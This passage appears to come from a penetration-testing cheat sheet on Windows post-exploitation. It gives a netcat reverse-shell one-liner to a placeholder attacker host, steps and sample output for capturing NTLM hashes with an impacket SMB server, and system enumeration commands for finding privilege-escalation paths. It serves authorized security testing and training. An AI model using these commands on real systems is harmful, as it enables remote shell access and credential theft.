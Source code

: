 ```text
nc.exe attacker_ip attacker_port -e cmd.exe
```

## To capture NTLM hash 

Spin up smbserver.py and connect via smb to your server on kali. ie smbclient -L //$kali$ip 

```text
/usr/share/doc/python-impacket/examples/smbserver.py -smb2support test . 
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (victimip:port)
[*] AUTHENTICATE_MESSAGE (MicrosoftAccount\emailhere@gmail.com,DESKTOP-12345A)
[*] User emailhere@gmail.com\DESKTOP-123456A authenticated successfully
[*]emailhere@gmail.com::MicrosoftAccount:aad3c435b514a4eeaad3b935b51304fec46b9e58:aad3c435b514a4eeaad3b935b51304fec46b9e58:aad3c435b514a4eeaad3b935b51304fec46b9e58

```

## System info

Finding installed software, running processes, bind ports, and OS version might be critical to identify the right EoP vector.

Find installed patches, architecture, OS version

```text
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Get exact OS version

```text
type C:/Windows/system32/eula.txt
```

{% hint style="success" %}
Hotfix\(s\): N/A  
If there are no Hot fixes then its likely the system is vulnerable to kernel exploit
{% endhint %}

### Hostname

Environment

```text
set
```
